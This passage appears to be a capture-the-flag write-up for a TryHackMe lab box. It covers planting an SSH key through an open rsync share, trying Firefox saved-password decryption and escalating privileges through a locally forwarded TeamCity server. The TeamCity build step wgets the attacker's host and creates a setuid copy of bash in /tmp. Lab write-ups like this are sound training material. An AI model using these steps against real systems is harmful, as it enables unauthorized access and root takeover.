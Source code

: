 Seems like it's the home directory for the user `sys-internal` (judging by the mozilla cache being synced)... this is slow...real slow.. I guess there is a bunch of file in there just to troll us in downloading them all.



Now that everything is downloaded, we see that it is indeed the `home` directory for `sys-internal` user.

Let's try to upload our public key to the `.ssh` folder :

```
rsync -av authorized_keys rsync://rsync-connect@10.10.128.223/files/sys-internal/.ssh
```

And it worked ! Now we can login using `ssh`



We find the `/home/ssys-internal/user.txt` :

```
THM{da7c20696831f253e0afaca8b83c07ab}
```



## Priv Esc

We can't `sudo`. Doesn't seem to have `suid` binaries.

The fact that the whole mozilla folder is there is intriguing. I remember that I retrieved the saved password using some tool in a previous challenge. Let's try to find the tool.

Got it, the tool is `https://github.com/unode/firefox_decrypt`

Actually, this was a deadend, I tried bruteforcing the master password for a while but didn't get anything.



I found that `Teamcity` is running (Apparently a `CI/CD` tool).

It's running only on `127.0.0.1:8111`. We can forward the port using `ssh` :

```
ssh -i id_rsa -L 8111:localhost:8111 sys-internal@10.10.128.223
```

Then we can browse the website on our machine.

We are redirected to a login page which says that no `super account` was created yet. We click the link and it ask for an authentication token that is located in `/TeamCity/logs/teamcity-server.log`. 

Unfortunately we don't have read permission for this file. But then looking at the file that we can read, we see `catalina.out` and here it is ! We get the token and create the `super account`

We then create a new project, a new build configuration and finally we add a `command line` build step. 

We add the following lines as the `build step` custom script :

```
wget http://10.6.32.20:8000/runned-$(whoami)
cp /bin/bash /tmp/bash
chmod +s /tmp/bash
```
